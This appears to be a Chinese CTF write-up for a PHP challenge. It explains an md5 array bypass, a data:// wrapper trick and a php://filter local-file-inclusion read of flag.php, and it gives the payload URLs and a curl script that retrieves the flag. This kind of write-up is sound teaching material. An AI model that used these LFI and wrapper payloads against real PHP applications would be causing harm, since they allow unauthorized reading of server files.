 #Web #PHP #伪协议 #LFI

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if (!isset($_GET['a']) || !isset($_GET['b']))
    die('Never gonna give you up');

$a = $_GET['a'];
$b = $_GET['b'];

if ($a == $b || md5($a) != md5($b)) {
    die('Never gonna let you down');
}

if (!isset($_GET['c'])) {
    die('Never gonna run around and desert you');
}

if (file_get_contents($_GET['c']) !== 'Never gonna make you cry') {
    die('Never gonna say goodbye');
}

if (!isset($_GET['d'])) {
    $_GET['d'] = 'flag.php';
    echo 'Never gonna tell a lie and hurt you';
}

include $_GET['d'];
```

---

#1
===

```php
if ($a == $b || md5($a) != md5($b)) {
    die('Never gonna let you down');
}
```

这里要求`$a`与`$b`不相等，且对两者进行md5的结果相等

有很多方法可以绕过，比较简单的方法是传递数组

对于老版本的php的md5函数，如果参数为非字符串，将会返回NULL，构造两个不同的数组a和b，md5的结果均为NULL，于是通过了这关

也可以看看利用弱类型特性的`0e`绕过和比较简单直接的md5碰撞～

```
/?a[]=1&b[]=2
```

#2
===

```php
if (file_get_contents($_GET['c']) !== 'Never gonna make you cry') {
    die('Never gonna say goodbye');
}
```

这里要求文件读取的结果为`'Never gonna make you cry'`，通过data伪协议绕过（php的`file_get_contents`，`include`这类函数一般都是支持伪协议的！）

```
/?a[]=1&b[]=2&c=data://text/plain,Never gonna make you cry
```

#3
===

```php
if (!isset($_GET['d'])) {
    $_GET['d'] = 'flag.php';
    echo 'Never gonna tell a lie and hurt you';
}

include $_GET['d'];
```

这里主要是提示可以对`flag.php`进行读取~~（其实是我把创建flag文件的代码写flag.php里了qwq）~~

如果直接`include`的话，就是通过php解释器执行代码了，所以要换个方法，让php的解释器不认它

一种可行的方法是使用php的伪协议，利用`php://filter`将文件内容进行base64编码后再读取，这样就不会有php标签啦

```
/?a[]=1&b[]=2&c=data://text/plain,Never gonna make you cry&d=php://filter/read=convert.base64-encode/resource=flag.php
```

> PD9waHAKJGZsYWcgPSAkX0VOVlsnRkxBRyddID8/ICdTcGlyaXR7ZmFrZS1mbGFnLXF3cX0nOwpmaWxlX3B1dF9jb250ZW50cygnc3Bpcml0ZmxhZ3F3cScsICRmbGFnKTsK

```shell
echo '...' | base64 -d
```

```php
<?php
$flag = $_ENV['FLAG'] ?? 'Spirit{fake-flag-qwq}';
file_put_contents('spiritflagqwq', $flag);
```

然后再直接读取`spiritflagqwq`就好了～

```
/?a[]=1&b[]=2&c=data://text/plain,Never gonna make you cry&d=php://filter/read=convert.base64-encode/resource=spiritflagqwq
```

如果读取没有结果可以先去一遍参数d，执行一遍flag.php来写入（逃

---

一键获得flag

```shell
#!/bin/bash

host="http://<host>:<port>/"
a='a[]=1'
b='b[]=2'
c='c=data://text/plain,Never+gonna+make+you+cry'
d='d=php://filter/read=convert.base64-encode/resource=spiritflagqwq'

curl -s -G \
    --data "$a" \
    --data "$b" \
    --data "$c" \
    "$host" > /dev/null
	
curl -s -G \
    --data "$a" \
    --data "$b" \
    --data "$c" \
    --data "$d" \
    "$host" |
    tail -n 1 |
    sed 's/<\/code>\(.*\)/\1/' |
    base64 -d
```